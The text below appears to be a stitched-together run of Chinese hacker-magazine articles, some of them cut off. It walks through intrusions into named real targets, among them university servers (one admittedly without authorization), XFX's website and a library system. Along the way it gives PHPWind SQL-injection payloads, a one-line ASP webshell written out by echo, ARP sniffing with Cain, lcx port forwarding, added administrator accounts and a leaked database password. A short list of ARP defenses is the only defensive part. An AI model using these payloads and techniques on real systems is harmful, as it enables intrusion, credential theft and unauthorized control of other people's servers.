哈哈，明白了我们的变量是怎么进入 SQL 查询的了吧！精心提交数据控制 uids 变量的话就可以进行 SQL 注入啦！现在让我们来尝试构造数据。首先，我们要让 `unset($uids)` 不能对 uids 做初始化，不然我们是没有办法注入的！至于这个，因为有那个 PHP 漏洞的帮助很容易做到这点。为了利用这个漏洞的小工具，如图 1，这样计算之后我们做如下提交：`search.php?uids=1&184288238=loveshell&276791066=loveshell`，这样之后的 uids 就会躲过 unset 的初始化，成功进入到后面了！

如何让 uids 不经过后面的赋值呢？我们要提供一个肯定让：
```text
-1) union select ord(mid(password(),9,1)) from pw_user where uid=1/**
-1) union select ord(mid(password(),10,1)) from pw_user where uid=1/**
```

```php
$query=$db->query("SELECT uid FROM pw_members WHERE username LIKE '$pwuser'");
while($member=$db->fetch_array($query)){
$uids .= $member['uid'].',';
}
// 用数据库查询结果再次对 uids 处理
```

为空的 pwuser，这也好说吧！提供一个 `$pwuser` 为 `LOOOOOOOOOOOOOOOOOOOOveshell` 这样的结果肯定就为空啦！这样之后 uids 还是保持我们提交的结果，没有做任何改变，然后到：

```php
$uids ? $uids=substr($uids,0,-1) : $sqlwhere.= " AND 0 ";
```

这里就要把 uids 去掉一个字符，然后只要 `$uids` 不为空：

```php
$uids && $sqlwhere .= " AND t.authorid IN($uids)";
```

就直接进去 `$sqlwhere` 变量，接着就是没有顾虑的 SQL 查询啦！嘿嘿，很简单吧！

那么怎么写 SQL 语句呢？程序将把我们提交的结果返回给我们看，不过显示的内容是：

```sql
SELECT DISTINCT t.tid FROM $sqltable WHERE $sqlwhere $orderby $limit
```

这个查询结果里的 tid 这些帖子！如果结果为真即 tid 有内容，就显示相应的帖子来；为假就报告说没有这个主题，呵呵！想到怎么构造 SQL 语句了吧！我们 uids 为：`-1) union select 999 from pw_user where ord(mid(password(),1,1))>48 and uid=1/**`，这样的语句就可以查询 uid 为 1 的用户的第一位的 ASCII 值是不是大于 48 啦！

怎么判断？当然是看返回的结果是不是真了。不过怎么为真呢？这就看是不是返回主题为 999 的搜索结果了！提交的完整数据包为：

```text
step=3&pwuser=looooooooooooooooveshell&uids=-1) union select 999 from pw_user where ord(mid(password(),1,1))>48 and uid=1/**&184288238=loveshell&276791066=loveshell
```

但是实际查询的时候还是很烦人，因为 pw 默认如果有搜索结果的时候会把当前的查询加入缓存的，所以我们每次搜索的 pw_user 要求不一样，而且这样一次又一次的查询是很烦人的！有什么好办法没有呢？答案是肯定的，首先我们可以改进注入语句！假设一个论坛在 40-128 这样的帖子 ID 存在的话，我们就可以很简单地猜测密码了！提交 uids 为：

```sql
-1) union select ord(mid(password(),1,1)) from pw_user where uid=1/**


```

假如返回 tid 为 97 的帖子的话，那么很显然，用户 ID 为 1 的用户的 md5 密码第一位为 a，呵呵，理解了吧！这样下去很快就可以得到结果！如果帖子 tid 为 40-120 的不存在，那么我们可以先将 `ord(mid(password(),1,1))` 做一定的算术运算，使其值在帖子 ID 的范围内就可以了哦！

还有一点就是猜测 md5 的时候，我们如果想破解 md5 密码，完全可以直接取中间的 16 位就可以了，所以不用做很多的猜测。譬如：

这样得到的加密后的 md5 依然是可以破解和正确的。

当然我也是一个懒人，这样做还是太麻烦，所以写了个 PHP 版本的 exp 给大家娱乐下，注意要求对方的 PHP 版本不能太高哦！超过 4.3 和 5.1.4 的最新版本是不受影响的 :)。exp 没有什么说的，无非就是查询，但是希望大家能看到里面的一些东西。首先就是每次搜索的用户名都是用时间来 md5 出来的，以保证用户名的不一样！其次是采取的 POST 方法保证不会留下日志，留下日志是不好的哦，呵呵！最后，抓个图，如图 2。exp 不是用来做破坏的，是用来理解这个漏洞的，呵呵 :)

> （文章中作者写的 PhpwindExp.php 和 phphash.exe 在光盘中有收录）

**编辑点评：**

作者的水平可以说上到另外的一个高度，不单单从代码入手，而是从 PHP 本身的漏洞出手，跟踪 PHPWIND 中使用这个漏洞函数的地方，进而注射变量；其实，PHPWIND 本身是没有漏洞的，这里的问题出在 PHP 本身，所以也不好修补，至少 PHPWIND 可能不会去修补这样的漏洞，只能靠各位站长自己的安全意识去修补 PHP 自身了。

# 上接第 40 页

好兴奋啊！现在就像把 XFX 的服务器搬到了自己面前，虽然眼前的利益诱惑巨大，但千万别做坏事，别忘了我们做人的原则。
## 五、小结

通过上述检测，我们复习了通过注入来拿 WebShell 及提权的几种方法。方法要灵活运用，才能事半功倍。

这么大的一个公司的网站安全居然如此薄弱，令人惊讶和悲哀！同时特别提醒大家遇到弱站千万不要心生歹念，掌控好自己的行为，坚持自己的原则！

（文章中用到的 NBSI3.0 已经收录在光盘中）

> **编辑点评：** XFX 作为一个知名公司，还存在这样的低级漏洞，令人寒心。正如作者所说，要是竞争对手或者一些心有歹念的人拿到你的权限，会做出什么事情来？谁都说不准，到时候吃亏的只有自己。另外，作者针对 XFX 的漏洞总结的几个得到 WebShell 的办法，希望对你有所帮助。值得我们学习的，不止是技术，还有做人的原则！

# 浪迹天涯

轻松一刻：狼崽出生就吃素，狼爸妈绞尽脑汁训练狼崽捕猎，终于有一天狼爸妈看到儿子追赶兔子，只见狼崽一把掐住兔子的脖子，恶狠狠地说：“小兔崽子，把胡萝卜全交出来！”

这个月来，网络上战事不断，先是国内的一家搜索公司被黑，然后是国外一家很有名气的 Blog 提供商被黑，自然还有国内某企业服务器和内部网络被人攻击，公安还介入其中，当事人称是善意提醒，却遭到不公正待遇。一时间，网络上搞得风风雨雨，好不热闹。在这儿要提醒各位，凡事都要有个度，别在利益面前失去自己的原则，自然也要当心一些美丽的陷阱诱惑，以免为好人所用！

- 从本文你可以学到：
- ARP 嗅探的使用
- LCX 的转发方法
- 渗透的技巧和思路

大家好，今天，我给大家带来的是《渗透 B 计划之一——完全掌握母校网络拓扑结构》。本来应该在第 10 期发出来的，但是由于某些原因，文章推迟了一个月才发出来。因为上一次的渗透是经过老师的批准而对我所在学院的网站、服务器进行安全检测，这次不一样了，要检测的是学校的主站、教务处查分系统等，而且还没有得到老师的批准，但为了使这次渗透计划完美，也为了广大黑友们，我就冒险对主站进行渗透。第 9 期的《渗透 A 计划之一——拿下母校所有院系网站的权限》一文，相信大家都看过了，这篇文章是继那篇文章之后，进一步深入渗透学校的内部网络，怎样利用嗅探、溢出等方法拿下新闻主站、教务处、学生成绩数据库等服务器！

好了，下面开始我们这一次的渗透之旅。

关于工具的使用方法，我等一会儿做个教程，大家可以看看。

首先要用到的工具是 Cain 嗅探欺骗工具，听说是外国人写的，被国内的“雨夜”汉化过，我用的是 Cain 2.8 雨夜汉化版。这个工具嗅探 80 端口的效果不错，而且用户名和密码都能截取下来，还会显示管理员后台登录地址，如果管理员登录，就不用再去找后台了，正合我意。但是，这个工具记录不了 21 端口的用户名和密码，特别是 Serv-U 架设的 FTP 服务器，根本记录不到用户名和密码，还望高手指教。

下面，开始 80 端口的嗅探了，一切准备好了，嗅探成功开启，现在只等管理员登录了。我想明天可能管理员就要登录后台，因为平常管理员是每个星期一登录后台加新闻，明天正好是星期一，所以明天管理员很可能要进后台加新闻。

第二天，我打开学校主站查看新闻，发现有崭新的新闻，所以管理员一定进过后台。马上直奔机房，登录上昨天的那台服务器，Cain 果然不负我望啊，竟然有 10 多条记录（图 2）。

## 一、检测主站新闻信息系统

Cain 记录下来的密码都是明文的（这个工具记录下的大部分是明文密码，它是记录登录时提交的数据，那时密码还没有加密）。马上按照工具记录下来的用户名和密码登录，成功进入了主站新闻管理系统（图 3）。

首先，我们去主站看下，主站的新闻系统存在注入漏洞，我读大二的时候玩过一次，从那以后，管理员就把后台给改了，试了很多方法，也没把后台给找出来，这次重新面对主站，也没什么更好的思路。在《渗透 A 计划之一——拿下母校所有院系网站的权限》中，我拿下来二台服务器的权限，一台是存放 http://student.wit.edu.cn/ 学工在线的，IP 地址是 210.42.24.58，另一台是 http://student.wit.edu.cn/ 学工在线的数据库服务器，IP 地址是 218.199.176.130。现在渗透的主站是 http://www.wit.edu.cn/，IP 地址是 210.42.24.56，和学工在线处于一个网段内，而且就相隔两个 IP 地址，先登录上学工在线的服务器（图 1）。

转入命令行，先用 ping 命令向主站发送数据包，看有没有数据包返回，然后 arp -a 查看，主站的 IP 地址 210.42.24.56 在里面，看样子可以嗅探欺骗，对主站的 80 端口进行嗅探欺骗，如果管理员登录网站后台添加新闻，我们就能截取到管理员的用户名和密码。以前《黑客手册》在介绍嗅探欺骗的时候，提到过一款不错的工具，Cain 嗅探欺骗工具。

进入新闻系统的后台，发现这个后台界面好简单，好像没什么办法拿 WebShell，先查找下这套程序。一般后台都有源程序的版权信息，在系统设置菜单的最下面看到：“版权所有 三峡在线”，在网上搜了一套，在本地装好，调试成功。这个后台功能太少了，添加图片的地方过滤得很严格，没法办突破，而且又没有数据库备份等功能，找了一圈，最后，在系统设置这里找到突破口。可能是我下载安装时权限设置的问题，我在保存系统设置菜单的时候，页面报错“写入 inc/setup.asp 文件失败”，我马上到 inc 文件夹下打开 setup.asp 文件，原来系统设置菜单是把内容写入 inc/setup.asp 文件里（图 4）。

这就好办了，我们只要在网站标题处写入冰狐浪子的一句话木马就行了。这里要注意下，因为它的内容都用引号括起来了，所以，我们写入的语句首先要把它的引号封闭起来，我提交的语句如下（图 5）。

里面的变量 b_imagesheight 是为了封后面的引导，对下面的变量没影响。下面用冰狐浪子的一句话木马客户端提交上去，成功探测到网站路径和服务器环境（图 6）。

马上上传一个老兵站长助手，上传成功，登录老兵站长助手，网站的目录全部列出来了（图 7）。

因为是学校的新闻主站，也就没有继续深入提权，我大概地看了下，服务器上基本没设什么权限，只存放了 www.wit.edu.cn 一个主站，所以管理员也没有设置权限，我也没有继续提权，不想把事闹大了。服务器上没有装 Serv-U，FTP 服务是 Windows 自带的，好像没漏洞，但是如果要提权的话，可以从杀毒软件入手。服务器上装了瑞星杀毒软件，而且是装在 D:\Program Files 下，我试过了，可以替换瑞星杀毒软件的服务提权，把木马绑在瑞星主程序上，只要服务器重启，就可以拿下服务器权限。毕竟，这次检测没有老师的授权，如果出了问题，那就不好办了，我就没有测试，但是应该可以成功。到此为止，主站就成功拿下了。

## 二、检测学生成绩数据库服务器

我们学校教务处的网址是 http://jwc.wit.edu.cn/，IP 地址是 210.42.29.152。教务处的网站主要发布一些教务处的最新消息，像选课时间、重修时间、平常考试的时间，所以教务处网站上没有什么有价值的东西。http://218.199.176.3/ 这个站，是教学管理信息系统，平常大家期末考试都是登录这个网站查询，如果能拿下这个站，就可以搞到学生成绩数据库。我猜想数据库服务器和 Web 服务器是分离的，因为我们学校有差不多 1.8 万学生，这么多数据一般不会存在一台服务器上，一台服务器也带不动。现在要拿下的是学生成绩查询系统的数据库，有两种方法，一种是拿下 http://218.199.176.3/ 这个站，然后查看数据库配置文件，就可以搞到学生成绩数据库；另一种方法，就是入侵 218.199.176.3 这个 IP 一个网段内的服务器，然后通过嗅探拿到 218.199.176.3 和成绩数据库之间数据库的通信密码，也可以搞定。

首先，我们来试试第一种方法，就是拿下 http://218.199.176.3/ 这个站。先看看这个网站，全部是用 ASP 程序设计的，听老师说，好像是学校花钱买的程序。我认真分析了下，没有什么可以利用的地方，我原来就对该程序分析过，像注入、上传、跨站这些一般的漏洞都没有，真不好搞。从 http://218.199.176.3/ 这个站下手的方法不行，换第二种方法。

我们来找寻 218.199.176.3 这台服务器一个网段内的服务器。我记得在《渗透 A 计划之一——拿下母校所有院系网站的权限》一文中，我拿下了另一台数据库服务器，IP 地址是 218.199.176.130，这台服务器就是学工在线的数据库服务器，而且是用 sa 权限连接的，在学工在线网站的 conn.asp 配置文件里有连接密码（图 8）。

我马上把剑心写的 SqlRootKit.asp——ASP 下连接数据库服务器并执行命令的工具上传上去，填上用户名、密码、SQL 服务器的 IP 地址，成功登录上去了，还是 System 最高权限。先加个管理员，管理员添加成功，查看服务器上的端口列表，开了 3389 端口，用远程桌面连接，但是提示连接失败，可能是 TCP/IP 筛选限制端口访问，也可能是开了防火墙。想办法上传了个 lcx.exe（端口转发工具），先在自己的电脑上执行 lcx -listen 99 33389，然后在服务器上执行 lcx -slave 自己的 IP 99 127.0.0.1 3389，有数据包发回来，说明有反应了，马上用远程桌面连上 127.0.0.1:33389，数据开始转发，成功登录上 218.199.176.130 这台数据库服务器的远程终端（图 9）。

先用 ping 命令向 218.199.176.3 发送数据包，看有没有数据包返回，然后用 arp -a 查看目标的 IP 地址 218.199.176.3 在里面，说明可以用嗅探欺骗。我们查分的时候，是要登录远程的数据库服务器的，从数据库服务器里读出我们的成绩，再通过网页返回到页面上。Cain 密码记录里有一项，可以嗅探 1433（SQL Server 数据库默认端口号）和 3389（远程终端的默认端口号）的密码，所以我们可以先用 Cain 对 218.199.176.3 进行嗅探欺骗，然后再用自己的学号登录网站，进行查分。如果我要查分，Web 服务器肯定要和数据库服务器进行通信，这样我们就可以截取登录数据库服务器的密码了。首先，我们用 Cain 对 218.199.176.3 进行嗅探欺骗，然后，我用学号登录 http://218.199.176.3/ 网站，进行成绩查询，看看 Cain 能不能记录下登录数据库的密码。

我用自己的学号登录进 http://218.199.176.3/ 网站，然后，查询自己的成绩，成绩成功显示回来了。Cain 的 TDS（记录终端和 SQL Server 数据库密码）这一项显示出了登录数据库服务器的用户名和密码，而且是 sa 数据库超级用户，密码设置得超级变态（图 10）。

密码这么复杂，还不是被 Cain 记录下来了，Cain 的嗅探欺骗功能真强大。马上用剑心写的 SqlRootKit.asp 工具内连接，但是提示连接超时失败，不会是用组策略限制了访问 IP 吧！没办法，以后再说吧。看看时间也差不多了，为了做这次检测，我花了十几块钱，专程跑到机房上机，因为学校网站是教育网，我们寝室接的是电信 ADSL，平常访问就慢得要死，如果在寝室对学校网站做检测，那还不把我急死了。可能有些还不够详细。这次渗透没有真正完成，但是我的目的达到了，知道了学校一些服务器的情况，一部分网络拓扑结构和网站的情况。我知道拿着这些信息去告诉计算机老师，他会是什么反应。算了，等《黑客手册》出来了，再把文章拿给老师看看吧，呵呵！在服务器上给管理员留了言，下机走人。

## 三、ARP 欺骗的防范方法

我这次入侵用的全都是 ARP 嗅探欺骗，其实在局域网内入侵，最好的就是溢出和 ARP 嗅探欺骗，但是溢出对 XP SP2 和 2003 没有什么效果，所以 ARP 嗅探欺骗就成了局域网内入侵的好方法。关于 ARP 欺骗的原理我就不说了，网上有很多这方面的文章，我来讲下 ARP 欺骗的防范方法。

# 防范 ARP 欺骗，有以下几种方法：

- 在路由器里把局域网内服务器的 MAC 地址和 IP 地址都一一对应给绑定。
- 下载防 ARP 攻击工具 AntiArp，对局域网进行查找，查看是否出现网卡处于混杂模式的服务器。
- 管理员定期从响应的 IP 包中获得一个 RARP 请求，然后检查 ARP 响应的真实性。
- 管理员定期轮询，检查主机上的 ARP 缓存。
- 使用防火墙连续监控网络。注意有使用 SNMP 的情况下，ARP 的欺骗有可能导致陷阱包丢失。
- 使用硬件屏蔽主机。设置好你的路由，确保 IP 地址能到达合法的路径。

（静态配置路由 ARP 条目），注意，使用交换集线器和网桥无法阻止 ARP 欺骗。

以上是一些局域网防范 ARP 欺骗的方法，还希望大家喜欢我的文章，如果有什么问题，请到《黑客手册》的论坛来找我，论坛 ID 是 rabbitsafe。

（文章中用到的工具 Cain、lcx.exe、sqlrootkit.asp、rabbitsafe 专用马在本期光盘中有收录）

# 编辑点评

ARP 的利用逐渐成熟，在一些渗透中，基本上都会想到 ARP。当然，ARP 还是很有威力的，只要能拿到同个路由下的一个主机的权限，以此为根据地，再用 Cain 去嗅探目标主机，往往都可以得到一些敏感信息。而且 ARP 一直以来都不能很好地防范，从而导致利用的泛滥。就渗透领域，ARP 还要火一段时间的。

# 对 XFX 讯景科技网站的安全检测

elin

- 从本文你可以学到：
- 注入工具的综合应用
- 上传 WebShell 的几种方法
- 社会工程学的应用

## 一、源起

XFX 向国内游戏玩家展示了具欧美大气风格的全系列 nVIDIA 显卡及 Personal Cinema 产品，相信广大游戏玩家都知晓。看到众多报刊杂志上 XFX 的显卡广告，真是令人垂涎，可是囊中羞涩……一次看到 XFX 在搞“积分换礼品”活动，于是就想去 XFX 网站看一看，顺便也对其做一次安全检测。如果发现了什么漏洞，给自己加个号，然后再搞点积分，不就得到礼品了吗？呵呵！（该打！怎能这样做呢？有损俺的光辉形象啊！）还是先做一下安全检测吧，发现问题向 XFX 报告一下，说不定人家为感谢我而奖我一块高端显卡呢！呵呵！

## 二、发现问题

网站程序问题最普遍的就是注入漏洞了，最简单省力的方法就是打开注入工具来扫一下。我们打开啊 D 注入工具，输入网址：www.xfx.com.cn，一会儿工夫，就跳出了三个注入点提示，如图 1。

看来网站的确是存在问题的，不禁惊叹如此大的公司网络安全仅如此……哎，继续吧！

随便选一个注入点提示进行检测，我们选 http://www.xfx.com.cn/products_view.asp?id=243，得到有关信息：MSSQL 数据库、支持多行执行、DB_OWNER 权限，如图 2。

## 三、“一题多解”得 WebShell

有 SQL 注入点，拿 WebShell 有哪些方法？常看《黑客手册》的读者们应该都掌握着一些方法吧！该站至少有三种方法可以得到 WebShell，为节省版面大致说说基本过程。

我们先来猜解数据库，其中有 admin 表，应该里面就放着管理员的账号信息，猜解结果，如图 3（这里换用 NBSI 3.0，速度比啊 D 快得多）。

密码都是 MD5 加密的，可用 MD5 破解工具跑一下，很轻松地跑得两组账号密码。（我们还可以拿到 xmd5.org 网站去在线查询一下，如果密码不是太复杂很快就出结果。）当然如果跑不出密码，我们还可以用 SQL 的 update 命令将其密码修改为 49ba59abbe56e057（123456 的 MD5 值）之类的值，但记得先将原来的值记录下来，以便恢复。有了密码当然是找管理员后台进行登录了，用注入工具的“管理入口检测”功能进行检测，有了几个结果，如图 4。

打开 http://www.xfx.com.cn/login.asp，管理内容还真丰富，如图 5。

看来不仅有网站管理、会员俱乐部管理，还有如喷绘、条码管理等等。如果被居心叵测的人拿下，就不仅仅是几块显卡礼品的问题了，甚至还可以获得 XFX 产品的防伪条码等，XFX 的利益受损就大了。真的是很危险啊！通过数据库猜解记录，得到密码进入管理后台，加 VIP 用户或改用户的记录、添积分，查询或添加产品条码都是可以轻松做到的，抓两张图给大家看看，如图 6、7。

我们还是言归正传，说说拿 WebShell。我们先用先前得到的管理员账号密码进入网站管理系统，如图 8。我们看到了网站的物理路径为：E:\wwwroot\，结合先前检测到的可以多句执行的 SQL 注入点，你会想到什么方法？对，数据库差异备份！曾经写过文章详细介绍过，在此不作阐述了，此为拿 WebShell 方法一。

在“文章管理”栏目的“添加文章”功能里，我们还有所发现，如图 9。大家有没有看到一个熟悉的身影？“她”就是 eWebEditor。

输入网址：http://www.xfx.com.cn/ewebeditor/，果然存在这个目录，用默认管理地址 http://www.xfx.com.cn/ewebeditor/admin_login.asp 登录，管理账号密码居然也未作修改，还是 admin 和 admin，就这样进去了，如图 10、11。

下面的步骤，相信大家都知道怎么办了，新增样式，添加允许上传文件扩展名，预览，上传 ASP 木马。不作细述，此为拿 WebShell 方法二。

在先前管理入口检测时，我们还检测到一个连接：http://www.xfx.com.cn/test.asp，打开后是一个上传界面，如图 12。

试着直接上传 ASP 木马文件，被程序阻止（难得管理员还有这么一点点安全意识）。又改扩展名为 asa，结果就成功了，如图 13。

就这样我们利用第三种方法也得到了 WebShell，截图大家看看，图 14。

## 四、结合社会工程学获得管理权限

下面我们就尝试获得进一步的管理权限。有了 WebShell，作进一步的提权方法有哪些？大家可以再回想一下所知道的方法。最方便的就是管理员装有 pcAnywhere，我们得到 cif 文件进行破解得到密码，然后就可以远程管理了，就像使用本机一样方便。

用我们的“马儿”在其硬盘里游走，真幸运，还真让我找到了 pcAnywhere 的踪影，在 c:\documents and settings\all users\application data\symantec\pcanywhere 目录下找到了两个 cif 文件，如图 15。

将这两个 CIF 文件下载到本机，用 pcAnywhere PassView 工具进行密码破解，然后本机装上 pcAnywhere 客户端工具，用得到的登录名和密码新增设置一个主控端，图 16、17。

满怀期待地进行连接，居然显示的是对管理员 wd002adm 进行了桌面锁定。要解开锁定，当然是要知道管理员的密码才行。要拿到其密码还不是件容易的事，咋办？

“Wd002”，似乎在哪见过？刚才破 cif 文件时就有一用户名为 wd002pca，一定是同一个人。刚才的密码“t5y6u7g8h4”会不会也就是管理员的系统密码呢？根据社会工程学的原理，一般人都习惯使用同一个密码。再加上我在查看程序数据库连接文件中发现的以下一段代码，使我对“t5y6u7g8h4”这串字符肯定是系统密码坚信不已。

```text
DataBaseName="xfx_db"            '数据库名称
SqlServer="(local)"              '你的 SqlServer 地址
SqlLoginUser="xfx"               '你的 SQL 登录用户名
SqlLoginPass="t5y6u7g8h4"        '你的 SQL 登录密码
```

果然如我所料，输入这串字符，成功进入桌面，如图 18。

# 图书馆之旅

黑萝卜[S.H.C]&[SYC]

- 从本文你可以学到：
- 注射点的探测
- 渗透的基本思路和过程

以前因为不爱看书，就没去办借书证，大学过去一年多还没去借过书。最近由于需要很多资料，才去办了张借书证。就在借书的过程中发现图书馆的借书、还书都是通过一款软件写入数据库服务器的，而且还可以通过 WEB 的方式查询自己借书情况，于是突发奇想，我要是能拿下那个 WEB 查询系统，那不就可以直接修改数据库内容了？那也就是说我可以借书不还了？呵呵，开个玩笑，要是真的借书不还情节可就严重咯，这里我只是从技术的角度去挑战下，完全没有破坏的意思。下面就跟我一起来看下图书馆的奥秘吧。

直入主题，找到图书信息查询系统，也就是 opac，界面很友好，功能也很强大，就是不知道安全性如何了。程序是 PHP 写的，首先还是尝试注入吧，PHP 注入还是很有杀伤力的。找了个连接加“'”返回空白页面，如图 1。接着加 and 1=1 和 and 1=2 都返回了一个特殊的页面，如图 2，不过还是可以读出数据的，说明程序做了过滤，我们加入的条件没有带入查询中去，看来直接这样测试是很难有收获的。用关键字搜索下这是什么系统，能否搞套代码来读下，结果很失望：是江苏汇软软件公司开发的商业系统，看不到代码的，这条路堵死了。

回过来看了下图书馆的其他服务，有随书光盘系统，有论文提交系统，试下能不能从这两个地方找点突破口。测试一个连接 http://210.*.*.133:8080/sub-item-cell.asp?BookID='4446'，参数被引号引起来了，直接加 and 1=1 是返回错误，难道不能注入？好像有点不对，把两边的引号去掉试下看成不，直接提交 http://210.*.*.133:8080/sub-item-cell.asp?BookID=4446 and 1=1，返回正常，如图 3；再改成 1=2，哈哈出错了，如图 4。

原来这里接收 BookID 后面是没有对数据进行处理就带入查询的，那我就不客气了，放到工具里面跑就是了。结果很快就出来了，看来运气不错，是 SA 权限。接下来的事情就很轻松了，找到 WEB 目录，用 xp_cmdshell 执行命令写入 webshell 还是差异备份都一样。我这里因为方便就直接执行 echo ^<^%eval request(chr(35))%^>D:\WEB\tc.asp，就是我的 shell 了，如图 5。注意这里的“^>”是因为 echo 会把 > 当作是写入结束了，所以需要替换下。在写入的时候因为服务器的配置不同，还可能出现 % 无法解析的问题，这个时候只要把 % 替换成 %25 就可以了。因为是 SA 权限，所以不用担心提权的问题，直接添加了管理员账户然后上传 3389.exe 开它的 3389 了。服务器重启后连上去就进入图书馆的服务器群内部了，如图 6。

拿到系统权限之后，因为它和目标主机是同一网段，所以首先 tracert 一下 210.*.*.149，没想到管理员居然划分了虚拟子网，嗅探也不行了。再考虑看能不能从硬盘里面翻出点什么有用的配置文件，经过一会儿的信息收集得到了以下密码：SA 密码（从数据库连接文件中获取的）、管理员账号 administrator 的密码（因为管理员登录后没有注销，所以用 findpass 从内存里面读出来的）。得到几个密码后扫描了一下这个网段的服务器，得到如下信息：

- 210.*.*.130，开放了 80、135 端口；
- 210.*.*.134，开放了 80、1433 端口；
- 210.*.*.149，开放了 80 端口（这台就是图书信息查询系统，也就是目标主机）。

现在马上就想到了利用社会工程学尝试是否有相同口令。

第一步：用得到的 SA 密码尝试连接 210.*.*.134 的 1433 端口，很幸运成功了，如图 7，接着一样的添加账户并开 3389 就不多说了。

第二步：用得到的管理员密码去尝试和 210.*.*.130 建立 IPC 连接，失败；正准备放弃的时候看到有个叫 Recton 的工具，它不依赖 IPC，只要主机开放 135 端口和 WMI 服务，何不用它试试。呵呵，管理员又给了我们惊喜，两台服务器的 administrator 账户密码是一样的，如图 8，连接成功后不一会儿也登录上了它的 3389。

到这个时候该总结下了，现在图书馆的四台服务器已经拿到了三台，只剩目标主机 210.*.*.149 了。目标主机只开了 80 端口，看起来是对它毫无办法了。这个时候无意之中分别看了下三台服务器的 IP 情况，居然发现其中 210.*.*.134 的网关和 210.*.*.130、210.*.*.133 是不一样的，难道它和 210.*.*.149 是在同一个子网内？抱着试一下的态度，执行 tracert 一下 210.*.*.149，直接返回了 210.*.*.149，说明是可以嗅探的！

马上上传了图形界面的工具 cain。这里照顾一下没有玩过的新手，我简单介绍下 cain 的配置：安装完毕以后，它会提示选择使用的网卡，因为服务器一般都有两块网卡，所以这里要注意选择 210.*.*.134 所在的这块，如图 9。其他的嗅探字段什么的都是根据不同情况而需要再修改的。接着要先点开始嗅探，然后 cain 才能自动搜索哪些主机是可以嗅探的，得到主机列表之后进入 arp 功能中，选择 + 按钮来添加欺骗的主机，这里左边选择网关 210.*.*.129，右边选择目标主机 210.*.*.149，如图 10，最后选择开始 arp 欺骗就可以了。一会儿就得到了几个密码，如图 11，好像都只是用户的，不是管理员的，不过没有关系，只要花时间继续等下去肯定是可以拿到管理员密码的。

这样基本就把学校图书馆系统拿下了，不过一定不能搞破坏，赶紧通知管理员，免得我的《黑客手册》样刊都拿得到图书馆充公！回头想下我们最新突破的光盘系统，好像也是某公司开发的商业系统，是不是还有其他高校也用这套系统呢？搜索关键字“杭州麦达电子有限公司版权所有”，呵呵，结果还是很不错的，估计有 10 多所高校都用，大家自己去看吧，如果觉得还不够多就直接去杭州麦达电子有限公司的网站看吧，上面可是有所有用户的名单哟，希望各位不要搞破坏就是了！

最后可能有朋友问我到底有没有嗅探到管理员密码进入数据库呢？说实话，我没有嗅到，不过我还是进去了，那又是怎么进去的呢？且听下回分解！

（文章中用到的工具 Recton 和 cain 收录在光盘中）

> **编辑点评：**  
> 作者的目的性比较强，在遇到挫折后能从目标附近随机下手，得到权限后再迂回，是现在比较正统的渗透思路；但是还是有很大的运气成分，要知道，现在的 SA 可不像几年前，一抓一大把哦。不过话说回来，入侵的成败和运气还是有蛮大关系的。

- 从本文你可以学到：
- 漏洞探测
- SA 权限的利用

# 都是限制流量惹的事

## 前言

现在很多高校为了打击 BT 下载这种海量下载方式，纷纷采取了限制流量的校园互联网接入方式，这个方法的确奏效。我们学校每月每个账号流量只有 2G，但是一般来说校园内部网是不算流量的。其实说到这里大家可能已经想到利用代理出外网的。的确，我们只要用校园网内的代理出去的确是不算流量的。为了不引人注意，目标当然首选校园网内的服务器，从而实现流量突破。

先打进内部看看，注册个用户看看再说，如图 2。

不知大家是否留意到图中有一个测试账号的按钮？很明显这里要经过一次数据库查询，要知道任何一次查询我们都不能放过，我们来测试一下吧。当用户输入一个不存在的用户名时候，测试账号的程序就不会提示“用户名已有人使用！”。我们可以这样来测试，首先提交如下语句：`' or 1=1---`，然后点测试账号，返回如图 3 所示。

哈哈，上面的写法说明 `or 1=1---` 这句话成功在查询语句里执行了，因为这是一条真的语句，是有结果返回的，也就是说有人使用这个“账号”，再提交 `' and 1=2---` 看看，返回如图 4。

手里以前也有好几台学校的肉鸡，现在先去找找新开的服务器看看。据说学校的老师开发了一套网络教学应用系统，正好测试一下 WEB 的安全性。打开网址后发现整站都是采用 .net 架构，尽管自己对 aspx 不是很熟悉，但是这与我们的渗透关系不大，先来找个带参数的连接，如图 1。

提交 sql 测试表达式 `and 1=1` 和 `and 1=2`，返回结果一样，这说明程序考虑到字符过滤。没关系，继续找！

测试了若干个连接都没找到可以利用的地方，再回头刺探了一下情况，服务器开了 21、80、3389 三个典型的端口，估计还开了别的端口，但是扫描器扫不出来，很可能开了 firewall，这里就不再考虑溢出了。

由于我们在后面加上了 `and 1=2` 来限制，所以这次查询没有返回任何记录，所以提示可以使用这个“用户名”。以上测试说明测试账号的 testidentily.aspx 文件存在注入漏洞！至于为何是 testidentily.aspx 提交，我简单说一下，我们在点下测试账号之前可以打开抓包工具来监听提交的参数，就好像自定义上传入侵那样，我们就能得到数据提交的参数了。当然分析网页源代码也是可以的。

这里我们拿到的参数是 testidentily.aspx?name=，好，接下来的体力活交给 nbsi 去干。我们打开 nbsi 2.5，在注入地址那里填入 www.target.edu.cn/testidentily.aspx?name=hacker，这里填入一个已存在的用户名 hacker（自己注册一个），放到数据库里就是 hacker' and 1=1---，我们判断正确返回的特征字符就应该是“已经有人使用了这个账号”，感觉有点不可思议吧？这样 nbsi 便把它识别为字符型注入。开始检测，提示暂未检测到漏洞，我们来填上刚才说的特征字符，再检测。返回如图 5 所示。

哈哈，居然还是 SA 的权限！？看来网管太信任它的程序了。既然是 SA 权限我就不客气了，加上个管理员再说：`net user Tsinternetuser 888888`（注：内置账号隐蔽些）。再来 `net localgroup administrators Tsinternetuser /add`，好了，执行的时候没办法回显，所以就不截图了。将入侵进行到底吧，开启远程桌面连接，用 Tsinternetuser 登录上去，哈哈，如图 6。

这时已经完全控制了这台 WEB 服务器了。最后，我还是没做成代理服务器，原因嘛，有句话说得不错：玩安全要有个度才有意思。

# 总结

本次入侵应该能对大家有一些启发，像这次的行动关键就是踩到了 SA 的注入点。据我所知，像检测用户名是否存在这功能在很多站点都有，那些程序是否过滤好了呢？那就留给大家去考究了。最后希望大家能真正灵活运用 SQL 注入技术，而不是只懂得利用工具，学会分析才是关键。

#### 编辑点评：

又是一个幸运儿，又是一个 SA 权限。怎么现在还是那么多的人不明白安全到底是有多么重要呢？为什么还是有那么多学校、企业的网站如此脆弱，不堪一击呢？哎，难道是我们这些安全工作者还没有起到作用：让人人了解安全。

- 从本文你可以学到：
- 绕过管理员验证
- 抓包修改数据
- 上传伪造的木马

非零解[SYC] 珞珈凤凰

# 武汉大学：由被入侵引起的检测

